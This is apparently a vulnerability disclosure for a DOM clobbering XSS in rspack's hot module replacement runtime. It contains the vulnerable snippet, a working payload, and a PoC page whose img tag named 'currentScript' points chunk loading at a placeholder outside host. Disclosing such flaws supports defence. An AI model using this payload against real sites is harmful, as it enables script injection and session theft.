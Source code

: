 ## rspack

### Meta

+ Library: rspack
+ Stars: 8.6K
+ Version: v1.0.0-rc.0
+ Fingerprint: N/A
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL: Self hosted

### Vulnerable Code Snippet

`crates/rspack_plugin_hmr/src/runtime/hot_module_replacement.js`
```javascript
(()=>{
        t.g.importScripts && (e = t.g.location + "");
        var e, r = t.g.document;
        if (!e && r && (r.currentScript && (e = r.currentScript.src),
        !e)) {
            var n = r.getElementsByTagName("script");
            if (n.length) {
                for (var o = n.length - 1; o > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[o--].src
            }
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        e = e.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/"),
        t.p = e
    }
    )()
```

## PoC


```
<!--Library-->
<script defer src="./dist/main.bundle.js"></script>
<!--Library-->

<!--Payload-->
<div id="root"><img name="currentScript" src="https://localhost:9999">
<!--Payload-->
```

```

The `rspack.config.js` to generate the bundle can be found below. 

```
const rspack = require('@rspack/core');
const path = require('path');
/** @type {import('@rspack/cli').Configuration} */
module.exports = {
  entry: {
    main: './src/index.js',
  },
  output: {
    path: path.resolve(__dirname, 'dist'),
    filename: '[name].bundle.js',
    chunkFilename: '[id].bundle.js',
    publicPath: 'auto',
  },
  plugins: [
    new rspack.HtmlRspackPlugin({
      template: './poc.html',
    }),
  ],
  optimization: {
    splitChunks: {
      chunks: 'all',
    },
  },
};
```

